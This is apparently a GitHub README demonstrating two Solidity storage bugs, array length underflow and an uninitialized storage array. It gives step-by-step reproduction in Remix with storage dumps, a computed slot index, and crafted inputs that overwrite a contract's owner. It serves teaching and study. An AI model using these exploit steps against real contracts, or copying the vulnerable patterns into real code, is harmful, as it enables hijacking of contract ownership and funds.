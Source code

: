 # Array length underflow. 

## Description:
The storage for a contract is addressed by 256-bit pointers. All storage 
variables for the contract are stored at different offsets in this single memory space. Every variable occupies a 32-byte 
"slot" in storage that is allocated in order of the variable declaration, starting at address 0. The first 32-byte 
variable will be at address 0, the second at address 1, and so on. Because mappings and dynamic arrays have fluctuating 
sizes, their contents cannot be stored inline in the slots. To solve this, hashing is used.                                                                                       

* In the case of a dynamic array, the reserved slot contains the length of the array as a uint256, and the array data 
itself is located sequentially at the address keccak256(p). Again, the chances of a collision, even for large arrays, 
are so small that they can be ignored.

In general, user-provided data cannot influence storage locations without going through the keccak256 hash function, 
the output of which is infeasible to influence. However, there is one exception: Dynamic arrays are stored sequentially 
starting at their hashed offset. If the index into this array is under attacker control, then the storage address is 
also controlled, within the bounds of the array. Of course, realistic array sizes will be insignificant compared to the 
keccak256 range, but the array length has uint256 type. So, as [others](https://github.com/pertsev/solidity_tricks/tree/master/Underflow) 
it can be (over|under)flowed by `array.length--` e.g. 

[Solidity documentation about memories](http://solidity.readthedocs.io/en/develop/miscellaneous.html#layout-of-state-variables-in-storage)

[Example inspired by MerdeToken](https://github.com/Arachnid/uscc/tree/master/submissions-2017/doughoyte)

### To reproduce:

1. Copy-paste `arrayLengthUnderflow.sol` to remix (or use `Connect to localhost` feature) and deploy `Array` contract. 
2. See Storage memory at debugger: 
```
{
   "0x290decd9548b62a8d60345a988386fc84ba6bc95484008f6362f93160ef3e563":{
      // Slot for array length
      "key":"0x0000000000000000000000000000000000000000000000000000000000000000",
      "value":"0x02"
   },
   "0x510e4e770828ddbf7f7b00ab00a9f6adaf81c0dc9cc85f1f8249c256942d61d9":{
      // first item of array (notice "key" and "0x290d..." above)
      "key":"0x290decd9548b62a8d60345a988386fc84ba6bc95484008f6362f93160ef3e563",
      "value":"0xaa"
   },
   "0x6c13d8c1c5df666ea9ca2a428504a3776c8ca01021c3a1524ca7d765f600979a":{
      // second item of array (notice "key" and "0x290d...63" above)
      "key":"0x290decd9548b62a8d60345a988386fc84ba6bc95484008f6362f93160ef3e564",
      "value":"0xbb"
   },
   "0xb10e2d527612073b26eecdfd717e6a320cf44b4afac2b0732d9fcbe2b7fa0cf6":{
      // owner
      "key":"0x0000000000000000000000000000000000000000000000000000000000000001",
      "value":"0xca35b7d915458ef540ade6068dfe2f44e8fa733c"
   }
}
```
3. Call `underflow` function 3 times and see Storage: 
```
{
   "0xb10e2d527612073b26eecdfd717e6a320cf44b4afac2b0732d9fcbe2b7fa0cf6":{
      // owner
      "key":"0x0000000000000000000000000000000000000000000000000000000000000001",
      "value":"0xca35b7d915458ef540ade6068dfe2f44e8fa733c"
   },
   "0x290decd9548b62a8d60345a988386fc84ba6bc95484008f6362f93160ef3e563":{
      // array length
      "key":"0x0000000000000000000000000000000000000000000000000000000000000000",
      "value":"0xffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff"
   },
   "0x3a93c8bac389ae1de2d290d3fe962d3c151e3a269221b7341e4a601c50c12d94":{
      // last array elem (notice "0x29...63" and "0x29...62" above)
      "key":"0x290decd9548b62a8d60345a988386fc84ba6bc95484008f6362f93160ef3e562",
      "value":"0x0000000000000000000000000000000000000000000000000000000000000000"
   }
}
```
4. Let's overwrite `owner`? Call `modify` with that args:
`"0xd6f21326ab749d5729fcba5677c79037b459436ab7bff709c9d06ce9f10c1a9e", "0xdeadbeef"`
And see storage now:
```
{
   "0x290decd9548b62a8d60345a988386fc84ba6bc95484008f6362f93160ef3e563":{
      "key":"0x0000000000000000000000000000000000000000000000000000000000000000",
      "value":"0xffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff"
   },
   "0xb10e2d527612073b26eecdfd717e6a320cf44b4afac2b0732d9fcbe2b7fa0cf6":{
      //owner!
      "key":"0x0000000000000000000000000000000000000000000000000000000000000001",
      "value":"0x00000000000000000000000000000000000000000000000000000000deadbeef"
   }
}
```

Stop. How have you known the index `"0xd6f21326ab749d5729fcba5677c79037b459436ab7bff709c9d06ce9f10c1a9e"`?
Ok. Check following Python code to clarification:
```
        //array length   //sha3(0x00)                                                         //owner's slot number
>>> hex(2**256         - 0x290decd9548b62a8d60345a988386fc84ba6bc95484008f6362f93160ef3e563 + 1                    )
'0xd6f21326ab749d5729fcba5677c79037b459436ab7bff709c9d06ce9f10c1a9eL'
```

# Uninitialized array. 

## Description:
By default, `copy` array data and `owner` variable refer to zero cell at Storage memory. (Read more about Storage above)
So, changing `copy` affect `owner` also.  

### To reproduce:

1. Copy-paste `uninitialized.sol` to remix (or use `Connect to localhost` feature) and deploy `Uninitialized` contract. 
2. Then call `rewrite` function with a byte array: 
```
["0xAA", "0xAA", "0xAA", "0xAA", "0xAA", "0xAA", "0xAA", "0xAA", "0xAA", "0xAA", "0xAA", "0xAA", "0xAA", "0xAA", "0xAA", "0xAA",
"0xAA", "0xAA", "0xAA", "0xAA", "0xAA", "0xAA", "0xAA", "0xAA", "0xAA", "0xAA", "0xAA", "0xAA", "0xAA", "0xAA", "0xAA", "0xAA",
"0x39", "0x05", "0x00", "0x00", "0x00", "0x00", "0x00", "0x00", "0x00", "0x00", "0x00", "0x00", "0x00", "0x00", "0x00", "0x00",
"0x00", "0x00", "0x00", "0x00", "0x00", "0x00", "0x00", "0x00", "0x00", "0x00", "0x00", "0x00", "0x00", "0x00", "0x00", "0x00"]
```
3. `owner` should be `0xaaaaa...`, `balance` == 1337
